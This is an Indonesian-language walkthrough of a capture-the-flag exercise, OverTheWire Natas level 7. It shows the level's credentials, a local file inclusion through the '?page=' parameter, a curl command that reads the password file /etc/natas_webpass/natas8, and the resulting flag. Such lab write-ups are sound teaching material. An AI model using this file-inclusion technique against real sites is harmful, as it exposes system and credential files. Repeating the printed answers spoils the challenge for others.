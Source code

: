 ```yaml
---
layout: default
level: 7
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas7 \
URL:      http://natas7.natas.labs.overthewire.org

# solve
- use cred natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
- disini ketika saya sudah login saya melihat terdapat sebuah navbar untuk berpindah halaman dan ketika di lihat terdapat sebuah query
  - query nya adalah ?page=home
  ![alt text](docs/images/image-8.png)
- lalu ketika saya lihat view-source pagenya saya menemukan hint untuk posisi passwrod natas
  ![alt text](docs/images/image-9.png)
  ```/etc/natas_webpass/natas8```
- jadi saya mengubah value dari paramter ?page
  - dan mendapatkan flagnya
  ![alt text](docs/images/image-10.png)
- jika menggunakan curl
  ```bash
  curl http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8 -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
  # xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
  # <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
  ```

# flag
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q